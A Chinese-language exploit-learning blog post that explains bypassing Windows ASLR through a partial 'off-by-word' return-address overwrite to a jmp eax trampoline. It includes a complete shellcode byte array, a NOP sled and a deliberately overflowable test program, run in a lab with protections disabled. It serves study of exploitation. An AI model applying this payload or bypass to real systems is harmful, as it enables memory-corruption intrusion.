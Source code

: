 ```yaml
---
title: 漏洞利用学习笔记-018-利用部分覆盖定位
description: 利用部分覆盖定位shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 内存地址布局随机化
    - off-by-word
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-018-利用部分覆盖定位/)

## 原理

- 映像随机化指示对映像加载基址的全两个字节随机化处理，这样做的后果是跳板始终可用，因此可以利用这一点去绕过ASLR
- 如果攻击memcpy的话，可以将返回值控制在`0xXXXX0000`~`0xXXXXFFFF`之间，而攻击str类函数攻击，可以将控制地址为`0xXXXX0100`~`0xXXXX00FF`之间的一个

## 过程

- 首先在编译完的程序内找到一条jmp eax的汇编码，随后将它的地址的低word作为`off by word`的地址，填入shellcode
- 计算好缓冲区大小，溢出后即可正常

## 代码

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## 开始实验

> 实验环境：系统：Windows Vista SP0，系统DEP状态：Optin默认，编译器：Visual Studio 2008，优化：禁用优化，GS选项：关闭，DEP选项：/NXCOMPAT:NO，build版本：release

- 编译程序，运行，直接弹出窗口并成功，重启也一样，如图

![成功](https://s3.ax1x.com/2020/11/28/Dyps2t.png)
